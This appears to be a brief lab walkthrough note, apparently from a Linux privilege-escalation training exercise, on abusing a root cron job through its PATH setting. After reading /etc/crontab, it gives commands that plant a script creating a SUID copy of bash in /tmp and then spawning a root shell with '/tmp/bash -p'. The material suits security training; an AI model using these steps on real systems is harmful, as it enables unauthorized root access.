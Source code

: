 **Detection**

  

[[Linux]] VM

  

1. In command prompt type: **cat /etc/crontab**

2. From the output, notice the value of the “PATH” variable.

  

**Exploitation**

  

Linux VM

  

1. In command prompt type:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```
2. In command prompt type:
```
 chmod +x /home/user/overwrite.sh
```

3. Wait 1 minute for the Bash script to execute.

4. In command prompt type: 
```
 /tmp/bash -p
```

6. In command prompt type: **id**
